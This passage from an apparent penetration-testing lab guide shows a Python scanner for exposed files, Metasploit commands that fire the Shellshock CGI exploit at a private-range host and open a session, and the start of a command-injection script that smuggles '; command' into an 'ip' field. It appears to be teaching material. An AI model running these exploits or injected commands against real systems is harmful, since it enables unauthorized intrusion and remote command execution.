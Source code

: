 ```python
            'robots.txt',
            'sitemap.xml'
        ]
        
        for file in common_files:
            url = f"{self.target}/{file}"
            r = requests.get(url)
            if r.status_code == 200:
                self.vulnerabilities.append(f"Exposed file: {file}")
    
    def generate_report(self):
        print(f"Vulnerability Assessment for {self.target}")
        print("=" * 50)
        for vuln in self.vulnerabilities:
            print(f"[!] {vuln}")

# Usage
checker = VulnChecker("http://192.168.1.102")
checker.check_headers()
checker.check_common_files()
checker.generate_report()
```

## Part 4: Exploitation

### Exercise 4.1: Metasploit Framework
```bash
# Start Metasploit
sudo msfconsole

# Search for exploits
search type:exploit platform:linux apache

# Use an exploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec
show options
set RHOSTS 192.168.1.101
set TARGETURI /cgi-bin/test.cgi
exploit

# Post-exploitation
sessions -l
sessions -i 1
sysinfo
getuid
```

### Exercise 4.2: Manual Exploitation
```python
#!/usr/bin/env python3
# Custom exploit for command injection vulnerability

import requests
import sys

def exploit_command_injection(target, command):
    # Vulnerable parameter
    payload = f"; {command}"
    
    # Send exploit
    data = {
        'ip': f'127.0.0.1{payload}'
```